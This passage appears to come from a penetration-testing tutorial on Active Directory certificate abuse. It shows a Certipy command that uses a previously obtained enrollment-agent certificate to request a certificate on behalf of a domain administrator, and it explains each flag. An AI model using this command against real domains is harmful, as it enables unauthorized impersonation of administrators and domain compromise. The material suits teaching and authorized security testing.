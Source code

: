 With Certipy, we can leverage the first certificate to request a User certificate for the administrator account, as such:
\begin{notebox}
\begin{verbatim}
certipy req -u <Username> -p <Password> -ca <CA_Server_Name> -target <CA_IP> -template User -on-behalf-of <Domain\Admin_Username> -pfx <Saved_Certificate>
\end{verbatim}
\end{notebox}
\subsubsection{Breaking Down The Command}
This command requests and retrieves a new User certificate that is valid for the administrator account. At this stage, the certificate is simply acquired-it has not been used yet. You do not yet \textit{use} the certificate-you are just obtaining it. Think of it as forging a digital ID card for the administrator: you now possess it, but you have not "shown it at the door" just yet (e.g., presented it for access).
\begin{itemize}
    \item \verb|-u <Username> -p <Password>:| The original standard user credentials.
    \item \verb|-ca <CA\_Server\_Name> -target <CA\_IP>:| Identifies the Certificate Authority.
    \item \verb|-template User:| Requests a standard User template certificate.
    \item \verb|-on-behalf-of <Domain\\Admin\_Username>:| The critical flag-tells the CA to issue the certificate for the administrator.
    \item \verb|-pfx <Saved\_Certificate>:| Supplies the first certificate, which grants the right to impersonate.
\end{itemize}

